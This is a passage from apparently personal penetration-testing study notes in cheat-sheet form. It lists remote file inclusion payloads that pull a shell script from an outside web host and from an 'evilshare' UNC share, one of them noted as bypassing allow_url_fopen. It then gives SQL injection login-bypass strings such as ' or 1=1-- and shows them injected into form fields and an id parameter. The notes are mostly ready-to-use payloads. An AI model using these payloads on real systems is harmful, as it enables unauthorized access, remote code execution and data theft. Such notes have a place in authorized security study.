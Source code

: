 ?file=https://websec.wordpress.com/shell.txt?

?file=https://websec.wordpress.com/shell.txt%23

(requires allow_url_fopen=On and allow_url_include=On)

?file=\\evilshare\shell.php

(bypasses allow_url_fopen=Off)


### SQL-Injection recon

Get the name and the vesion then look for exploits

- Name:
- Version:

http://resources.infosecinstitute.com/dumping-a-database-using-sql-injection/#gref

Refer to the web application work book under SQL tab

Refer to the PWK workbook V1.3 under SQL injection

```
' or 1=1--
" or 1=1--
or 1=1--
' or 'a'='a
" or "a"="a
') or ('a'='a
'"1
devnull' or '1
```
First thing you do if you get an error message is google it and verify which sql language it could be associated with.

More tests

```
hi' or 1=1--

```
inject into forms
```

Login: hi' or 1=1--  
Pass: hi' or 1=1--  

```

inject into id=

```
http://duck/index.asp?id=hi' or 1=1--

```
### fuzzing id= with burp
